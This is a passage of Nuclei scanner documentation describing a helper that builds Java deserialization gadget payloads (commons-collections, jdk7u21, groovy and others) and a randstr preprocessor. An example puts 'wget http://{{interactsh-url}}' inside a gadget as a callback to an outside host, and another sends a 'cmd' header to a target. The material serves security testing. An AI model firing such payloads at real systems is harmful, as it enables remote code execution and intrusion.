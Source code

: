 - dns (URLDNS)
- commons-collections3.1
- commons-collections4.0
- jdk7u21
- jdk8u20
- groovy1

**Supported encodings:**

- base64 (default)
- gzip-base64
- gzip
- hex
- raw

**Deserialization helper function format:**

```yaml
{{generate_java_gadget(payload, cmd, encoding}}
```

**Deserialization helper function example:**

```yaml
{{generate_java_gadget("commons-collections3.1", "wget http://{{interactsh-url}}", "base64")}}
```

# Preprocessors

## Template **Preprocessors**

Certain pre-processors can be specified globally anywhere in the template that run as soon as the template is loaded to achieve things like random ids generated for each template run.

### randstr

Info

Generates a [random ID](https://github.com/rs/xid) for a template on each nuclei run. This can be used anywhere in the template and will always contain the same value. `randstr` can be suffixed by a number, and new random ids will be created for those names too. Ex. `{{randstr_1}}` which will remain same across the template.

`randstr` is also supported within matchers and can be used to match the inputs.

For example:-

```yaml
requests:
  - method: POST
    path:
      - "{{BaseURL}}/level1/application/"
    headers:
      cmd: echo '{{randstr}}'

    matchers:
      - type: word
        words:
          - '{{randstr}}'
```
